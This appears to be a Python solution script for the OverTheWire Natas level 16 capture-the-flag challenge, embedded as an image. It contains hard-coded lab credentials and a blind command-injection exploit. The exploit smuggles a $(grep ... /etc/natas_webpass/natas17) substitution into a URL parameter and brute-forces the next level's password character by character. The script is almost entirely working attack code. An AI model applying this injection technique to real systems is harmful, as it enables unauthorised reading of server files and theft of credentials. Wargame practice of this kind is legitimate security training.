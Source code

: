 ```python

# === Authentication and characters for payload ===
auth = HTTPBasicAuth('natas16','WaIHEacj63wnNIBROHeqi3p9t0m5nhmh')
characters = string.ascii_letters + string.digits
needle = ""

# === Driver loop ===
while True:
    for c in characters:
        url = f"http://natas16.natas.labs.overthewire.org/index.php?needle=$(grep -E ^{needle + c}.* /etc/natas_webpass/natas17)hacker"
        print(f"Trying... {url}")
        r = requests.get(url,auth=auth)

        # == Analyze request === 
        if ('hacker' not in r.text):
            needle += c 
            break
        elif (c == '9'):
            print(f"natas17 Password: {needle}")
            sys.exit()



```